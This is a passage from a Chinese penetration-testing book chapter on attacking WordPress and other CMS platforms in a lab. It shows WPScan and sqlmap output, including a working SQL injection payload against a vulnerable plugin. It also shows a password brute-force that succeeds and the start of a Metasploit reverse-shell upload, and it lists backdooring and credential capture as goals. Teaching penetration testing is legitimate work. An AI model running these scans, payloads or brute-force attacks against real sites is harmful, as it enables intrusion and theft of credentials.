# 第十二章：攻击 CMS

本章我们将讨论攻击 CMS，特别是 WordPress。谈到 web 应用，几乎无法不提到 WordPress。WordPress 在互联网的普及程度如此之高，你可能在职业生涯中会遇到许多它的实例。毕竟，几乎三分之一的网站都在使用该平台，它无疑是最受欢迎的 CMS。

除了 WordPress，还有 Drupal、Joomla 和其他一些更现代的应用程序，如 Ghost。所有这些框架的目标都是让在网上发布内容变得简单且无忧。你不需要知道 JavaScript、HTML、PHP 或其他任何技术就能开始使用。CMS 通常可以通过插件扩展，并通过主题进行高度定制。WordPress 的特别之处在于，它在互联网上的安装量庞大。比如，你遇到一个 WordPress 博客的几率，远高于遇到 Ghost 博客的几率。

攻击者喜欢 WordPress，因为正是它与竞争对手的区别——庞大的社区——使得它难以安全防护。WordPress 占据市场份额的原因在于，用户不需要技术专长就能运营一个美食博客，而这正是问题所在。那些同样没有技术背景的用户不太可能更新插件或应用核心补丁，更不可能强化他们的 WordPress 实例，并且这些年下来，他们不会偏离这种基础设置。

公平地说，自动更新功能已经在 WordPress 3.7 版本中加入，但前提是用户实际上升级到 3.7 版本。还应该注意，即便有自动更新功能，出于变更管理的考虑，一些公司可能会选择关闭自动更新，以维持稳定性，牺牲安全性。

企业喜欢 WordPress，许多公司提供共享托管和管理服务。也不罕见有市场部门的人设置了一个未经安全部门知晓的非法实例，并将其运行多年。

很容易将 WordPress 作为攻击目标，但 Drupal 和 Joomla 也是不错的选择。它们同样面临着易受攻击的插件和主题问题，以及安装版本更新稀少的问题。WordPress 是巨头，我们将重点关注它，但攻击方法同样适用于任何内容管理框架，尽管所用的工具可能略有不同。

在接下来的章节中，我们将深入探讨 WordPress 攻击，最终你应该能掌握以下内容：

+   使用各种工具测试 WordPress

+   一旦获取访问权限，在 WordPress 代码中设置持久性

+   通过后门进入 WordPress 以获取凭证和其他有价值的数据

# 应用评估

就像我们对待其他应用程序一样，当我们遇到 WordPress 或 CMS 实例时，我们必须进行一些侦察：寻找低悬的果实，并试图理解我们面对的是什么。我们有一些工具可以帮助我们入门，我们将看一个常见的场景，了解它们如何帮助我们识别问题并进行利用。

## WPScan

攻击者遇到 WordPress CMS 应用程序时，通常首先会选择 WPScan。它是一个构建良好、经常更新的工具，用于发现漏洞甚至猜测凭证。

WPScan 具有许多有用的功能，包括以下内容：

+   插件和主题枚举：

    +   被动和主动发现

+   用户名枚举

+   凭证暴力破解

+   漏洞扫描

对于评估工作，一个有用的功能是可以将所有请求通过代理传递，例如通过本地的 Burp Suite 实例。这使我们能够实时查看攻击，并重放一些有效负载。在一次 engagement 中，这对于记录活动，甚至传递一个或两个多用途的载荷可能非常有用。

```
**root@kali:~# wpscan --url http://cookingwithfire.local/ --proxy 127.0.0.1:8080**

```

### 注意

使用上游代理与 WPScan 配合使用时，可能会在 Burp 的代理历史中生成大量数据，特别是在进行凭证攻击或主动扫描时。

通过 Burp 代理我们的扫描可以让我们对外发出的连接有一些控制：



图 12.1：Burp 捕获 WPScan 网络请求

### 注意

默认的用户代理（WPScan vX.X.X）可以通过 `--user-agent` 开关进行更改，或通过 `--random-agent` 随机化。

### 注意

WPScan 可以在 Kali 和大多数渗透测试发行版中找到。它还可以在[`wpscan.org/`](https://wpscan.org/)找到，或从 GitHub 克隆：[`github.com/wpscanteam/wpscan`](https://github.com/wpscanteam/wpscan)。

一次典型的 engagement 从使用 `--url` 参数对目标进行被动扫描开始。以下命令将对 `cookingwithfire.local` 测试博客进行默认扫描：

```
root@kali:~# **wpscan --url http://cookingwithfire.local/**
**_______________________________________________________________**
 **__          _______   _____** 
 **\ \        / /  __ \ / ____|** 
 **\ \  /\  / /| |__) | (___   ___  __ _ _ __ ®**
 **\ \/  \/ / |  ___/ \___ \ / __|/ _' | '_ \** 
 **\  /\  /  | |     ____) | (__| (_| | | | |**
 **\/  \/   |_|    |_____/ \___|\__,_|_| |_|**

 **WordPress Security Scanner by the WPScan Team**
 **Version 2.9.3**
 **Sponsored by Sucuri - https://sucuri.net**
 **@_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_**
**_______________________________________________________________**

[+] URL: http://cookingwithfire.local/

**[!] The WordPress 'http://cookingwithfire.local/readme.html' file exists exposing a version number**
**[!] Full Path Disclosure (FPD) in 'http://cookingwithfire.local/wp-includes/rss-functions.php':**
[+] Interesting header: LINK: <http://cookingwithfire.local/index.php?rest_route=/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.25 (Debian)
[+] Interesting header: X-POWERED-BY: PHP/7.2.3
[+] XML-RPC Interface available under: http://cookingwithfire.local/xmlrpc.php

[+] WordPress version 4.9.4 (Released on 2018-02-06) identified from meta generator, links opml
**[!] 1 vulnerability identified from the version number**

**[!] Title:** 
**WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)**
    Reference: https://wpvulndb.com/vulnerabilities/9021
    Reference: https://baraktawily.blogspot.fr/2018/02/how-to-dos-29-of-world-wide-websites.html
    Reference: https://github.com/quitten/doser.py
    Reference: https://thehackernews.com/2018/02/WordPress-dos-exploit.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

[+] WordPress theme in use: kale - v2.2

[+] Name: kale - v2.2
 |  Latest version: 2.2 (up to date)
 |  Last updated: 2018-03-11T00:00:00.000Z
 |  Location: http://cookingwithfire.local/wp-content/themes/kale/
 |  Readme: http://cookingwithfire.local/wp-content/themes/kale/readme.txt
 |  Changelog: http://cookingwithfire.local/wp-content/themes/kale/changelog.txt
 |  Style URL: http://cookingwithfire.local/wp-content/themes/kale/style.css
 |  Theme Name: Kale
 |  Theme URI: https://www.lyrathemes.com/kale/
 |  Description: Kale is a charming and elegant, aesthetically minimal and uncluttered food blog theme that can al...
 |  Author: LyraThemes
 |  Author URI: https://www.lyrathemes.com/

[+] Enumerating plugins from passive detection ...
[+] No plugins found

[+] Requests Done: 348
[+] Memory used: 41.449 MB
[+] Elapsed time: 00:00:03
root@kali:~#
```

初步看起来，似乎没有太多可用于利用的东西。存在一个完整路径泄露漏洞，如果我们需要找到一个放置 shell 的地方，这可能会派上用场。**拒绝服务**（**DoS**）漏洞不太有趣，因为大多数客户端不会允许这种类型的利用，但在报告中提到它作为一种可能的破坏路线可能是有益的。

默认情况下，WPScan 会对插件进行被动枚举。这基本意味着它只会检测到在站点某处引用的插件。如果插件被禁用或更加隐蔽，可能需要执行主动枚举。

主动扫描将测试是否已知的插件文件存在于 `wp-content` 文件夹中，并对任何已存在的漏洞发出警报。通过向已知路径发送大量 URL 请求来实现这一点，如果有响应，WPScan 会假定插件是可用的。

要指定我们要进行的扫描类型，`--enumerate`（简写为 `-e`）开关接受多个用于主动检测的参数：

+   `u` – 查找 ID 从 1 到 10 的用户名

+   `u[10-20]` – 查找 ID 从 10 到 20 的用户名：`--enumerate u[15]`

+   `p` – 查找流行的插件

+   `vp` – 仅显示易受攻击的插件

+   `ap` – 查找所有已知的插件

+   `tt` – 搜索 timthumbs

+   `t` – 枚举流行的主题

+   `vt` – 仅显示易受攻击的主题

+   `at` – 查找所有已知的主题

你也可以提供多个 `--enumerate`（或 `-e`）开关，一次枚举主题、插件和用户名。例如，以下开关组合将执行一次相当彻底的扫描：

```
**root@kali:~# wpscan --url [url] -e ap -e at -e u**

```

我们继续开始对目标进行可用插件的主动枚举：

```
root@kali:~# wpscan --url http://cookingwithfire.local/ **--enumerate p**
[...]
[+] URL: http://cookingwithfire.local/
[...]
[+] Enumerating installed plugins (only ones marked as popular) ...
[...]

[+] Name: google-document-embedder - v2.5
 |  Last updated: 2018-01-10T16:02:00.000Z
 |  Location: http://cookingwithfire.local/wp-content/plugins/google-document-embedder/
 |  Readme: http://cookingwithfire.local/wp-content/plugins/google-document-embedder/readme.txt
**[!] The version is out of date, the latest version is 2.6.4**

**[!] Title: Google Document Embedder 2.4.6 - pdf.php file Parameter Arbitrary File Disclosure**
    Reference: https://wpvulndb.com/vulnerabilities/6073
    Reference: http://www.securityfocus.com/bid/57133/
    Reference: http://packetstormsecurity.com/files/119329/
    Reference: http://ceriksen.com/2013/01/03/WordPress-google-document-embedder-arbitrary-file-disclosure/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-4915
    Reference: https://secunia.com/advisories/50832/
    Reference: https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_google_document_embedder_exec
    Reference: https://www.exploit-db.com/exploits/23970/
[i] Fixed in: 2.5.4

**[!] Title: Google Document Embedder <= 2.5.14 - SQL Injection**
    Reference: https://wpvulndb.com/vulnerabilities/7690
    Reference: http://security.szurek.pl/google-doc-embedder-2514-sql-injection.html
    Reference: https://exchange.xforce.ibmcloud.com/vulnerabilities/98944
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-9173
    Reference: https://www.exploit-db.com/exploits/35371/
[i] Fixed in: 2.5.15

**[!] Title:  Google Document Embedder <= 2.5.16 - SQL Injection**
    Reference: https://wpvulndb.com/vulnerabilities/7704
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-9173
    Reference: https://www.exploit-db.com/exploits/35447/
[i] Fixed in: 2.5.17

**[!] Title: Google Doc Embedder <= 2.5.18 - Cross-Site Scripting (XSS)**
    Reference: https://wpvulndb.com/vulnerabilities/7789
    Reference: http://packetstormsecurity.com/files/130309/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1879
[i] Fixed in: 2.5.19

[+] Requests Done: 1766
[+] Memory used: 123.945 MB
[+] Elapsed time: 00:00:10
root@kali:~#
```

看起来 **Google Document Embedder** 已经成功枚举，并且有几个具有公开可用概念验证代码的严重漏洞。

被标记为 `CVE-2014-9173` 的 SQLi 漏洞在 [`www.exploit-db.com`](https://www.exploit-db.com) 上有 PoC，Kali 上可以通过 `searchsploit` 本地查询。这个简单的工具可以搜索 Kali 本地目录 `/usr/share/exploitdb/`，该文件夹经常被镜像到在线数据库，并且在互联网不易访问的环境中非常有用。

我们可以从命令行调用 `searchsploit`，并将搜索查询作为第一个参数，如下所示：



图 12.2：Google Document Embedder 的 searchsploit 结果

`searchsploit` 将列出 `Exploit Title` 和相关的 `Path`，该路径相对于 Kali 发行版中的 `/usr/share/exploitdb/`。

在 PoC 文档 `/usr/share/exploitdb/exploits/php/webapps/35371.txt` 中，研究员 Kacper Szurek 识别了 `wp-content/plugins/google-document-embedder/view.php` 插件文件中的 `gpid` URL 参数作为注入点。

## sqlmap

为了确认我们目标中的此漏洞，我们可以转到 sqlmap，这是一款事实上的 SQL 注入（SQLi）利用工具。sqlmap 可以帮助我们快速生成有效载荷，以测试流行的**数据库管理系统**（**DBMS**），如 MySQL、PostgreSQL、MS SQL 甚至 Microsoft Access。要启动新的 sqlmap 会话，我们通过 `-u` 参数传递完整的目标 URL。

注意，目标 URL 包含 `GET` 查询参数，并带有一些虚拟数据。如果我们不告诉 sqlmap 目标 `gpid`，它将检查其他所有参数的注入情况。这不仅对 SQLi 漏洞发现很有帮助，对漏洞利用也是一个很好的工具。得益于我们的 `searchsploit` 查询，我们知道 `gpid` 是易受攻击的参数，因此可以专注于对其进行攻击，使用 `-p` 参数。

```
**root@kali:~# sqlmap -u "http://cookingwithfire.local/wp-content/plugins/google-document-embedder/view.php?embedded=1&gpid=0" -p gpid**

**[*] starting at 10:07:41**

**[10:07:41] [INFO] testing connection to the target URL**
**[...]**

```

几分钟后，sqlmap 检测到后端是 MySQL，我们可以指示它仅针对目标检查 MySQL 有效载荷。这将大大提高我们确认漏洞的机会。

```
[10:07:49] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[10:07:49] [INFO] **GET parameter 'gpid' is 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)' injectable**
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
```

对于其余的测试，sqlmap 将确认漏洞的存在并将状态保存到本地。对目标的后续攻击将使用已识别的有效载荷作为起点来注入 SQL 语句。

```
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[10:07:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
**GET parameter 'gpid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n**
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: gpid (GET)
    Type: **error-based**
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: **embedded=1&gpid=(SELECT 1349 FROM(SELECT COUNT(*),CONCAT(0x716b6a7171,(SELECT (ELT(1349=1349,1))),0x716b6a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)**
**---**
**[10:08:07] [INFO] the back-end DBMS is MySQL**
**web server operating system: Linux Debian**
**web application technology: Apache 2.4.25, PHP 7.2.3**
**back-end DBMS: MySQL >= 5.0**
**[10:08:07] [INFO] fetched data logged to text files under '/root/.sqlmap/output/cookingwithfire.local'**

**[*] shutting down at 10:08:07**

**root@kali:~#**

```

### 注意

如果你想在自己的 WordPress 实例中测试这个有漏洞的插件，可以从[`github.com/wp-plugins/google-document-embedder/tags?after=2.5.1`](https://github.com/wp-plugins/google-document-embedder/tags?after=2.5.1)下载版本 2.5 的 Google Document Embedder 插件。

## Droopescan

虽然没有 WPScan 那样功能全面，droopescan 的扫描目标不止是 WordPress。它非常适合 Drupal 实例，也可以对 Joomla 做一些基本的扫描。

Droopescan 可以从 GitHub 克隆并快速安装：

```
**root@kali:~/tools# git clone https://github.com/droope/droopescan**
**Cloning into 'droopescan'...**
**[...]**
**root@kali:~/tools# cd droopescan/**
**root@kali:~/tools/droopescan# ls**
**CHANGELOG  droopescan  dscan  LICENSE  MANIFEST.in  README.md  README.txt  requirements_test.txt  requirements.txt  setup.cfg  setup.py**

```

一旦提取，我们可以手动使用`pip`安装依赖项，并通过`-r`参数传入`requirements.txt`选项：

```
**root@kali:~/tools/droopescan# pip install -r requirements.txt**
**Obtaining file:///root/tools/droopescan (from -r requirements.txt (line 3))**
**[...]**
**root@kali:~/tools/droopescan#**

```

Droopescan 还可以使用`setup.py`脚本和`install`参数进行全局安装：

```
**root@kali:~/tools/droopescan# python setup.py install**
**Obtaining file:///root/tools/droopescan (from -r requirements.txt (line 3))**
**[...]**
**root@kali:~/tools/droopescan#**

```

要评估一个应用程序，可以使用`scan drupal`选项启动 droopescan，并使用`-u`参数指定目标：

```
root@kali:~# droopescan scan drupal -u http://ramblings.local -t 8
[+] No themes found.

[+] Possible interesting urls found:
 **Default admin** - http://ramblings.local/user/login

[+] Possible version(s):
 **8.5.0-rc1**

[+] No plugins found.

[+] Scan finished (0:03:34.527555 elapsed)
root@kali:~#
```

这个工具是入门了解 Drupal、WordPress 或 Joomla 实例时的好选择。

## Arachni Web 扫描器

**Arachni**与之前讨论的更专业的工具有所不同。它是一个功能齐全的模块化框架，具有通过远程代理分发扫描的能力。经过正确配置后，它可以成为评估应用程序的强大第一步。

Arachni 是免费的开源软件，并且容易安装。它可以通过一个易于使用的 Web 用户界面或通过命令行进行控制。该框架还可以用于发现 HTML5 和文档对象模型漏洞，传统的扫描器可能会遗漏这些漏洞。

### 注意

Arachni 的预编译二进制文件可以在[`www.arachni-scanner.com/`](http://www.arachni-scanner.com/)找到。

一旦提取到磁盘上，我们需要创建一个用户才能登录到 Web 界面。`arachni_web_create_user`辅助工具可以在`bin`文件夹中找到。

```
root@kali:~/tools/arachni/bin# **./arachni_web_create_user root@kali.local A!WebOf-Lies* root**
User 'root' with e-mail address 'root@kali.local' created with password 'A!WebOf-Lies*'.
root@kali:~/tools/arachni/bin#
```

### 注意

如果这是 Arachni 的生产环境安装，请小心清除你的 Shell 历史记录。

Web 界面通过同一文件夹中的`arachni_web`脚本启动：

```
**root@kali:~/tools/arachni/bin# ./arachni_web**
**Puma 2.14.0 starting...**
*** Min threads: 0, max threads: 16**
*** Environment: development**
*** Listening on tcp://localhost:9292**
**::1 - - "GET /unauthenticated HTTP/1.1" 302 - 0.0809**
**[...]**
**::1 - - "GET /navigation HTTP/1.1" 304 - 0.0473**
**::1 - - "GET /profiles?action=index&controller=profiles&tab=global HTTP/1.1" 200 - 0.0827**
**::1 - - "GET /navigation HTTP/1.1" 304 - 0.0463**

```

Web 用户界面默认运行在`http://localhost:9292`。在这里，我们可以立即启动新的扫描，也可以将其安排在稍后进行。我们还可以创建扫描配置文件或与远程代理进行交互。

Arachni 默认提供三个扫描配置文件：

+   默认

+   跨站脚本攻击（XSS）

+   SQL 注入

默认配置文件执行多种检查，并寻找有趣的文件和容易被发现的漏洞。XSS 和 SQL 注入是针对这两种漏洞类型的更聚焦的配置文件。

要使用 Web UI 启动新的扫描，请在**扫描**下选择**新建**，如图所示：



图 12.3：启动一个新的 Arachni 扫描

我们还可以在扫描运行时查看 **扫描** 页面，跟踪进度。以下图示展示了一个针对 `jimsblog.local`，即一个 WordPress 安装的示例扫描：



图 12.4：Arachni 扫描正在运行

问题会在扫描状态下列出，随着它们的发现。但一旦扫描完成，完整的报告将提供。在 **问题** 部分，我们可以看到 Arachni 发现的内容，如下所示：



图 12.5：Arachni 发现的问题

Arachni 中的 SQL 注入扫描配置文件也可以用于扫描，验证我们之前通过 WPScan 发现的问题，在 `cookingwithfire.local` 博客中。这个特定的配置文件应该比默认扫描完成得更快。



图 12.6：Arachni 发现的 SQL 注入

细心的读者会注意到，Arachni 发现了一个基于时间的盲 SQL 注入，sqlmap 使用基于错误的技术确认了这个漏洞。从技术上讲，两种技术都可以用来利用这个特定应用程序，但基于错误的技术是首选。基于时间的注入攻击本身速度较慢。如果 Arachni 发现了一个基于时间的盲 SQL 注入漏洞，可能是个好主意，将 sqlmap 定向到相同的 URL，看看是否能识别出更可靠的信息。

# 后门化代码

一旦我们获得了对 CMS 实例的访问权限，例如 WordPress、Drupal 或 Joomla，就有几种方式可以持续保持或甚至水平或垂直提升权限。我们可以注入恶意 PHP 代码，这将允许我们随时获得 Shell 访问权限。代码执行非常强大，但在某些情况下，我们不一定需要它。还有其他方式可以利用该应用程序。或者，我们可以修改 CMS 核心文件，以便在用户和管理员登录时捕获明文凭证。

这两种技术都需要某种提升的权限，这就引出了一个问题：如果我们已经拥有这种类型的访问权限，为什么还要费力做这些呢？我们将探讨几种情况，在这些情况下，后门可能有助于我们的渗透测试。如果我们对 WordPress 实例有管理员访问权限，但没有 Shell 访问权限，我们可以利用 UI 创建反向 Shell 并保持访问权限，以防密码被重置。如果我们有标准用户的 Shell 访问权限，但没有其他权限，捕获明文凭证可能是横向移动或提升权限的好方法。

## 持久性

在攻击 CMS 安装时，例如 WordPress，我们可能已经获得了管理员凭证。也许我们通过 WPScan 成功列出了用户，然后暴力破解了特权用户的凭证。这比你想象的要常见，尤其是在 WordPress 临时搭建用于开发的环境中，或者只是被搭建起来后就被遗忘了。

让我们使用 `wpscan` 的 `--enumerate u` 选项来探讨这个场景：

```
root@kali:~# wpscan --url http://cookingwithfire.local/ **--enumerate u**
[+] Enumerating plugins from passive detection ...
[+] No plugins found

[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+--------+--------+
    | Id | Login  | Name   |
    +----+--------+--------+
    | 1  | msmith | msmith |
    | 2  | mary   | Mary K |
    +----+--------+--------+

[+] Requests Done: 377
[+] Memory used: 3.836 MB
[+] Elapsed time: 00:00:10
```

结果显示至少有两个我们可以针对其进行登录暴力破解攻击的用户。WPScan 可以通过 `--usernames` 参数和 `--passwords` 提供的字典文件进行某个账户的凭证暴力破解。

对于这次攻击，我们将使用 SecLists 的 `rockyou-10.txt` 字典，并将目标设置为 `mary`。像之前一样，我们可以通过 `--url` 参数调用 `wpscan`，然后指定一个用户名，并将 `passwords` 参数指向 SecLists 的 `rockyou-10.txt` 文件。

```
root@kali:~# wpscan --url http://cookingwithfire.local/ --usernames mary  --passwords ~/tools/SecLists/Passwords/Leaked-Databases/rockyou-10.txt

[+] Starting the password brute forcer
[+] [SUCCESS] Login : mary Password : **spongebob**

  Brute Forcing 'mary' Time: 00:00:01 <===============    > (87 / 93) 93.54%  ETA: 00:00:00
  +----+-------+------+-----------+
  | Id | Login | Name | Password  |
  +----+-------+------+-----------+
  |    | mary  |      | **spongebob** |
  +----+-------+------+-----------+

[+] Requests Done: 441
[+] Memory used: 41.922 MB
[+] Elapsed time: 00:00:12
```

稍等片刻后，`mary` 的凭证得到确认，我们可以自由地以该用户身份登录。

通过 WordPress UI 登录时，我们注意到 `mary` 对博客具有更高的访问权限。我们可以利用这个账户启动反向 shell，从而获得对底层操作系统的访问权限。

我们可以通过 Metasploit 或通过管理员面板本身轻松实现这一点。Metasploit 方法稍显嘈杂，如果失败，它可能会留下遗留物，如果没有及时清理，可能会引起管理员警觉。然而，在某些情况下，隐蔽性并不是最重要的，这个模块仍然能够正常工作。

Metasploit 模块 `wp_admin_shell_upload` 将连接到 WordPress 网站，并使用我们刚刚发现的凭证进行身份验证。它将继续上传一个恶意插件，启动一个反向 Meterpreter shell 并返回到我们的攻击机器。

在我们的 Kali 实例上，像之前一样，我们可以通过 `msfconsole` 命令启动 Metasploit 界面：

```
**root@kali:~# msfconsole -q**

```

让我们使用 Metasploit 的 `use` 命令加载 `wp_admin_shell_upload` 漏洞，如下所示：

```
**msf > use exploit/unix/webapp/wp_admin_shell_upload**
**msf exploit(unix/webapp/wp_admin_shell_upload) > options**

